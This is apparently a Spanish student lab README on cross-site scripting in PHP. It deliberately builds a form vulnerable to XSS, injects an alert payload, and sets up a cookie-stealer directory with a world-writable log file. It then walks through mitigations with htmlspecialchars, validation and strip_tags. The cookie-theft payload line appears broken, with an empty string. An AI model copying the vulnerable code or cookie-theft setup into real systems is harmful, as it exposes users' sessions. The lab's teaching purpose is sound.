




# PPS-Unidad3Actividad5-Aaron

## XSS

### Crear formulario vulnerable

En la carpeta www, crear un fichero commnet.php con este contenido:

```php
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```


### Vulnerar formulario

Insertar en el campo del formulario el siguiente contenido:


```php
<script>alert('XSS ejecutado!')</script>
```

Este bloque de código muestra por pantalla una alerta con el mensaje XSS ejecutado!



### Cookie stealer

Crear en el servicio apache del servidor php83 la siguiente estructura de carpetas:

```bash
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
```

Cuando vulneremos el formulario que hemos creado anteriormente en php se registrará en el fichero txt el contenido de la cookie del usuario que ha ejecutado el script:

```php
<script>document.write('')</script>`
```



## Mitigación

### filter_input()

Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

```php
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
```

### htmlspecialchars()

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido

```php
<?php
if (isset($_POST['comment'])) {
	$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
	echo "Comentario publicado: " . $comment;
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
```



### Validación de entrada

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:

```php
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
```

### Protección contra inyecciones

Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si solo se quiere texto sin etiquetas HTML:

```php
$comment = strip_tags($_POST['comment']);
```

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, <b> y <i>), se puede hacer:

```php
$comment = strip_tags($_POST['comment'], '<b><i>');
```
### Protección contra ataques CSRF

Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.


